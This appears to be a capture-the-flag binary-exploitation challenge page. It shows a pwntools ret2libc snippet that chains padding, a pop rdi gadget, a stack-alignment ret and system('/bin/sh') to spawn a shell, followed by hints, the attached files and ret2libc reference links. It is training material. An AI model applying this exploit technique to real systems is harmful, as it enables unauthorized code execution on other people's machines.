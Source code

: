 ```py
payload2 = b'A' * 72 # padding again
payload2 += p64(0x400653) # pop rdi ; ret
payload2 += p64(sh) # shell as argument
payload2 += p64(0x400476) # stack alignment (ROP for ret instr)
payload2 += p64(system) # system calls shell: system(/bin/sh)

# final
p.sendline(payload2)
p.interactive()
```

## Solution
refer to solve.py

## Hints
2. might wanna check out: https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul

## Attached Files
- chall
- chall.c
- libc.so.6

## Resources
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/ret2lib/index.html
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/ret2lib/rop-leaking-libc-address/index.html
- https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html

## Flag
TBD